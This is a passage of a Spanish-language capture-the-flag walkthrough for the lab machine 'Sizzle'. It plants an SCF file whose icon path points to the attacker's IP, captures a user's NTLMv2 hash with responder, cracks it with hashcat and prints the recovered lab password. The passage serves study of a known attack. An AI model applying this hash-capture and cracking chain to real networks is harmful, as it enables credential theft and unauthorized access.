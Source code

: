 ![sfc1](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2017.png)

Como se aprecia tenemos permisos de escritura sobre el directorio del usuario Public. Además luego de vigilar el fichero podemos notar que está siendo eliminado:

![sfc2](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2018.png)

En base a esto creare un fichero SFC (Shell Command Files):

```bash
[Shell]
Command=2
IconFile=\\10.10.14.27\evil.ico
[Taskbar]
Command=ToggleDesktop
```

Como se ve se esta solicitando un fichero llamado evil.ico desde nuestra dirección IP asignada. Con esto, antes de depositarlo en **`/Users/Public`** iniciaremos responder para capturar el hash NTLMv2:

```bash
responder -I tun0
```

Depositamos el fichero:

![sfc3](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2019.png)

Y al esperar un poco podemos ver que hemos recibido el hash de amanda:

![sfc4](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2020.png)

Depositaremos el hash en un fichero para crackearlo, en este caso utilizare hashcat para hacerlo:

```bash
hashcat -m 5600 amanda_hash /usr/share/wordlists/rockyou.txt 
```

![sfc5](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2021.png)

Podemos observar que el resultado nos muestra la contraseña **`Ashare1972`**. Podemos comprobar que estas credenciales son validas utilizando crackmapexec:

![sfc6](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2022.png)

Y son validas contra smb, pero al probarlas contra winrm tenemos un error. Como vimos anteriormente con smbclient no pudimos acceder a los recursos **`CertEnroll`** y **`Operations`**. Así que ingresare nuevamente a estos recursos con las credenciales obtenidas:

![sfc7](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2023.png)

De momento para **`CertEnroll`** no veo nada interesante con lo que poder aprovecharme. Para el recurso de **`Operations`** vemos lo mismo:

![sfc8](Sizzle%201eb94fca1eec45dcaca180a631c75a14/Untitled%2024.png)
